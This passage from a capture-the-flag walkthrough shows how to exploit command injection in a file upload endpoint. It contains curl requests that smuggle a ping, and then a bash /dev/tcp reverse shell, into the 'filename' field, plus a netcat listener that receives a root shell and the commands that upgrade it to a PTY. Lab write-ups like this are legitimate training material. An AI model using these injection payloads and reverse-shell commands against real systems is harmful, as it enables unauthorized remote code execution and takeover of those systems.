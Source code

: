 ### Exploit Command Injection

#### POC

To see if this works, I’ll put a `; [command]` in the filename, and see if the
package will execute that command. I always like to start with a `ping`. With
`tcpdump` listening, I’ll send this:

    
    
    oxdf@parrot$ curl -X POST http://10.10.10.235:31337/upload -H 'content-type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; ping -c 1 10.10.14.7"}'
    {"ok":true,"Uploaded_File":"x; ping -c 1 10.10.14.7"}
    

I get the ping at `tcpdump`:

    
    
    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    13:48:37.119550 IP 10.10.10.235 > 10.10.14.7: ICMP echo request, id 19, seq 1, length 64
    13:48:37.119585 IP 10.10.14.7 > 10.10.10.235: ICMP echo reply, id 19, seq 1, length 64
    

That’s remote code execution (RCE).

#### Shell

I’ll swap out the `ping` with a Bash reverse shell. It took a couple tries to
get the quotes right, but on running this:

    
    
    oxdf@parrot$ curl -X POST http://10.10.10.235:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}'
    {"ok":true,"Uploaded_File":"x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}
    

A shell returned at `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.235] 40804
    id
    uid=0(root) gid=0(root) groups=0(root)
    

Python is on the box, so I can get a full PTY:

    
    
    which python
    /usr/bin/python
    python -c 'import pty;pty.spawn("bash")'
    root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# 
    